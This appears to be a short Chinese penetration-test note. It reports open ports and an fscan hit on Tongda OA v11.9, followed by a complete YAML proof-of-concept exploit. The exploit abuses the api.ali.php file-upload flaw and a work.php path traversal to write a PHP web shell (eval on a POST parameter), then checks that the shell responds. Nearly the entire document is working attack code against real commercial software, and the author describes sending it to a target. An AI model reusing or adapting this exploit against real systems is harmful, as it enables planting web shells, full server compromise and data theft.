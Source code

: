 ```
 - 22
 - 3306
```

fscan扫出了tongda-oa-v11.9-api.ali.php-fileupload

直接改poc发过去

```yaml
name: poc-yaml-tongda-oa-v11.9-api.ali.php-fileupload
set:
  filename: base64("cccc")
  r1: randomLowercase(8)
  payload: base64("file_put_contents('../../"+filename+".php','<?php eval($_POST[Ki1ro]);echo(md5("+r1+"));highlight_file(__FILE__);?>');")
  rboundary: md5(randomLowercase(8))
  date: TDdate()
rules:
  - method: POST
    path: /mobile/api/api.ali.php
    headers:
      Content-Type: multipart/form-data; boundary={{rboundary}}
      Accept-Encoding: gzip
    follow_redirects: false
    body: "\
      --{{rboundary}}\r\n\
      Content-Disposition: form-data; name=\"file\"; filename=\"{{filename}}.json\"\r\n\
      Content-Type: application/octet-stream\r\n\
      \r\n\
      {\"modular\":\"AllVariable\",\"a\":\"{{payload}}\",\"dataAnalysis\":\"{\\\"a\\\":\\\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\\\"}\"}\r\n\
      --{{rboundary}}--\r\n\
      "
    expression: |
      response.status == 200

  - method: GET
    path: /inc/package/work.php?id=../../../../../myoa/attach/approve_center/{{date}}/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.{{filename}}
    expression: |
      response.status == 200 && response.body.bcontains(b'OK')

  - method: GET
    path: /{{filename}}.php
    expression: |
      response.status == 200 && response.body.bcontains(bytes(md5(r1)))

detail:
  author: PeiQi0
  influence_version: "<= 通达OA 11.9"
  links:
    - https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/wiki/oa/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.8%20api.ali.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
  tags: tongda,fileupload

```
